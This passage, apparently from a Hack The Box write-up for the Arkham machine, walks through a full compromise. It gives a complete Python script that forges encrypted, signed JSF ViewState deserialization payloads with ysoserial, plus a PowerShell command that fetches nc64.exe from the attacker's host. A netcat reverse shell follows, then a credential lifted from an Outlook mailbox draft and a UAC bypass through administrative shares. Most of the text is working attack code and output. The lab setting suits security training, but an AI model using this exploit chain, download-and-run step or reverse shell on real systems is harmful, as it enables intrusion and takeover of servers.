So here we have our exploit which sends a javax.faces.ViewState payload to ping ourselves basically. We could check it with the following command:
    
    
      [ 10.10.14.47/23 ] [ /dev/pts/0 ] [~/_HTB/Arkham]
      → tcpdump -i tun0 icmp
    
    

So from here we need to upload nc64.exe to spawn a reverse shell:
    
    
      [ 10.10.14.47/23 ] [ /dev/pts/0 ] [~/_HTB/Arkham]
      → java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections5 'powershell.exe -exec bypass Invoke-WebRequest "http://10.10.14.47:9000/nc64.exe" -OutFile "c:\windows\system32\spool\drivers\color\nc64.exe"' > xct_is_awesome
    
    
    

So far we've used [ippsec's](https://www.youtube.com/watch?v=krC5j1Ab44I) steps, but to for additional diversity, we can use [hipotermia's](https://hipotermia.pw/htb/arkham) python script in order to upload netcat and then use it to get a reverse shell:
    
    
      import urllib
      import base64
      import subprocess
      import requests
      import hashlib
      import pyDes
      import hmac
      import sys
    
      url= "http://10.10.10.130:8080/userSubscribe.faces"
      r=requests.get(url)
      cookie=r.headers['set-cookie']
    
      cmd=sys.argv[1]
    
      secret = base64.b64decode("SnNGOTg3Ni0=")
      cipher = pyDes.des(secret, pad=None, padmode=pyDes.PAD_PKCS5)
    
      ysoserial= 'java -jar ../ysoserial-master-SNAPSHOT.jar CommonsCollections6 "' +cmd+'"'
      payload=subprocess.check_output(ysoserial,shell=True)
      payload=cipher.encrypt(payload)
      hmacSignature= hmac.new(secret,payload,hashlib.sha1).digest()
      payload=base64.b64encode(payload + hmacSignature)
      payload=urllib.parse.quote(payload)
    
      headers = {"Cookie":cookie,"Content-Type":"application/x-www-form-urlencoded"}
      data="j_id_jsp_1623871077_1%3Aemail=nihilist&j;_id_jsp_1623871077_1%3Asubmit=SIGN+UP&j;_id_jsp_1623871077_1_SUBMIT=1&javax.faces.ViewState;="+payload
      r= requests.post(url, data=data, headers=headers)
    
    

As you can see i updated his script a bit because the urllib needed to become urllib.parse in python3, so we'll first test if it works by making the machine ping back to us : 

And we made the machine ping us ! from there we need to make the machine download netcat.exe from us, and execute it. 

it doesn't seem to work so we'll go for [snowscan's](https://snowscan.io/htb-writeup-arkham/) solution which consists in saving the netcat binary in \programdata\ instead. 

    
    
    
      [ 10.10.14.47/23 ] [ /dev/pts/8 ] [~/_HTB/Arkham]
      → nc -lvnp 9001
      listening on [any] 9001 ...
      connect to [10.10.14.47] from (UNKNOWN) [10.10.10.130] 49779
      Microsoft Windows [Version 10.0.17763.107]
      (c) 2018 Microsoft Corporation. All rights reserved.
    
      C:\tomcat\apache-tomcat-8.5.37\bin>whoami
      whoami
      arkham\alfred
    
      C:\tomcat\apache-tomcat-8.5.37\bin>cd C:\Users\Alfred\Desktop
      cd C:\Users\Alfred\Desktop
    
      C:\Users\Alfred\Desktop>type user.txt
      type user.txt
      baXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it ! we have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

Now to privesc on this box we need to take a look into Alfred's download directory:
    
    
    
      C:\Users\Alfred\Desktop>cd ..
      cd ..
    
      C:\Users\Alfred>cd Downloads
      cd Downloads
    
      C:\Users\Alfred\Downloads>dir
      dir
       Volume in drive C has no label.
       Volume Serial Number is FA90-3873
    
       Directory of C:\Users\Alfred\Downloads
    
      02/03/2019  08:48 AM    <****DIR>          .
      02/03/2019  08:48 AM <****DIR>          ..
      02/03/2019  08:41 AM <****DIR>          backups
                     0 File(s)              0 bytes
                     3 Dir(s)   7,898,488,832 bytes free
    
      C:\Users\Alfred\Downloads>cd backups
      cd backups
    
      C:\Users\Alfred\Downloads\backups>dir
      dir
       Volume in drive C has no label.
       Volume Serial Number is FA90-3873
    
       Directory of C:\Users\Alfred\Downloads\backups
    
      02/03/2019  08:41 AM <****DIR>          .
      02/03/2019  08:41 AM <****DIR>          ..
      02/03/2019  08:41 AM           124,257 backup.zip
                     1 File(s)        124,257 bytes
                     2 Dir(s)   7,898,488,832 bytes free

Into which we find a certain backup.zip file that we send over to our local machine:

So we unzip it and we find an .ost file that is an Outlook email folder That we can read using readpst, which you can install like so : 
    
    
    
      [ 10.10.14.47/23 ] [ /dev/pts/6 ] [~/_HTB/Arkham]
      → sudo apt install pst-utils
    
      [ 10.10.14.47/23 ] [ /dev/pts/5 ] [_HTB/Arkham/hipotermia]
      → readpst alfred@arkham.local.ost
      Opening PST file and indexes...
      Processing Folder "Deleted Items"
      Processing Folder "Inbox"
      Processing Folder "Outbox"
      Processing Folder "Sent Items"
      Processing Folder "Calendar"
      Processing Folder "Contacts"
      Processing Folder "Conversation Action Settings"
      Processing Folder "Drafts"
      Processing Folder "Journal"
      Processing Folder "Junk E-Mail"
      Processing Folder "Notes"
      Processing Folder "Tasks"
      Processing Folder "Sync Issues"
              "Inbox" - 0 items done, 7 items skipped.
      Processing Folder "RSS Feeds"
      Processing Folder "Quick Step Settings"
              "alfred@arkham.local.ost" - 15 items done, 0 items skipped.
              "Calendar" - 0 items done, 3 items skipped.
              "Drafts" - 1 items done, 0 items skipped.
      Processing Folder "Conflicts"
      Processing Folder "Local Failures"
      Processing Folder "Server Failures"
              "Sync Issues" - 3 items done, 0 items skipped.
    

In the drafts folder we have an interesting email with a b64 encoded attached image:
    
    
    
      [ 10.10.14.47/23 ] [ /dev/pts/5 ] [_HTB/Arkham/hipotermia]
      → file Drafts.mbox
      Drafts.mbox: HTML document, ASCII text, with very long lines
    
      [ 10.10.14.47/23 ] [ /dev/pts/5 ] [_HTB/Arkham/hipotermia]
      → nano Drafts.mbox
    
    

` 
    
    
      echo 'B64STRING' | base64 -d > image001.png
    
    

` 

And so from here we have the user batman's credentials : batman:Zx^#QZX+T!123
    
    
    
      C:\Users\Alfred\Downloads\backups>net user batman
      net user batman
      User name                    Batman
      Full Name
      Comment
      User's comment
      Country/region code          001 (United States)
      Account active               Yes
      Account expires              Never
    
      Password last set            2/3/2019 9:25:50 AM
      Password expires             Never
      Password changeable          2/3/2019 9:25:50 AM
      Password required            Yes
      User may change password     Yes
    
      Workstations allowed         All
      Logon script
      User profile
      Home directory
      Last logon                   4/18/2020 8:16:05 AM
    
      Logon hours allowed          All
    
      Local Group Memberships      *Administrators       *Remote Management Use
                                   *Users
      Global Group memberships     *None
      The command completed successfully.
    
    

here we see that batman is a member of the Administrator group. So we privesc to batman using powershell:
    
    
    
      C:\Users\Alfred>powershell
      powershell
      Windows PowerShell
      Copyright (C) Microsoft Corporation. All rights reserved.
    
      PS C:\Users\Alfred> $user = 'batman'
      $user = 'batman'
      PS C:\Users\Alfred> $pass = 'Zx^#QZX+T!123'
      $pass = 'Zx^#QZX+T!123'
      PS C:\Users\Alfred> $secPass = ConvertTo-SecureString $pass -AsPlainText -Force
      $secPass = ConvertTo-SecureString $pass -AsPlainText -Force
      PS C:\Users\Alfred> $cred = New-Object System.Management.Automation.PSCredential $user, $secPass
      $cred = New-Object System.Management.Automation.PSCredential $user, $secPass
      PS C:\Users\Alfred> enter-pssession -computername arkham -credential $cred
      enter-pssession -computername arkham -credential $cred
      [arkham]: PS C:\Users\Batman\Documents> whoami
      whoami
      arkham\batman
    
    

Now that we are logged in as the user batman, we see that we can't actually get into the Administrator directory:
    
    
    
      [arkham]: PS C:\Users\Batman\Documents> cd \users\administrator\desktop
      cd \users\administrator\desktop
      [arkham]: PS C:\Users\Batman\Documents>
    
    

So next up we'll use [snowscan's](https://snowscan.io/htb-writeup-arkham/) unintended privesc solution which was to first check that UAC was enabled, which explains why we couldn't get into the Administrator's directory as batman:
    
    
    
      [arkham]: PS C:\Users\Batman\Documents> (Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System).EnableLUA
      (Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System).EnableLUA
      1
    
    

But for some reason, if we use the UNC paths we could get access to the administrator directory, which gets the root flag:
    
    
      C:\Users\Batman\Documents>pushd \\10.10.10.130\c$
    
      Z:\>cd \users\administrator\desktop
    
      Z:\Users\Administrator\Desktop>dir
       Volume in drive Z has no label.
       Volume Serial Number is FA90-3873
    
       Directory of Z:\Users\Administrator\Desktop
    
      02/03/2019  09:32 AM    <****DIR>          .
      02/03/2019  09:32 AM <****DIR>          ..
      02/03/2019  09:32 AM                70 root.txt
                     1 File(s)             70 bytes
                     2 Dir(s)   8,710,045,696 bytes free
    
      Z:\Users\Administrator\Desktop>type root.txt
      type root.txt
      63XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

Another way was to remember that we could mount shares, therefore mapping the C$ volume in G: 
    
    
    
      [arkham]: PS C:\Users\Batman\Documents> net use G: \\10.10.10.130\C$
      net use G: \\10.10.10.130\C$
      The command completed successfully.
    
    
      [arkham]: PS C:\Users\Batman\Documents> fsutil fsinfo drives
      fsutil fsinfo drives
    
      Drives: C:\ D:\ G:\
    
    

And from there simply typing the root flag : 
    
    
    
      [arkham]: PS C:\Users\Batman\Documents> type G:\Users\Administrator\Desktop\root.txt
      type G:\Users\Administrator\Desktop\root.txt
      63XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

## **Conclusion**

Here we can see the progress graph :

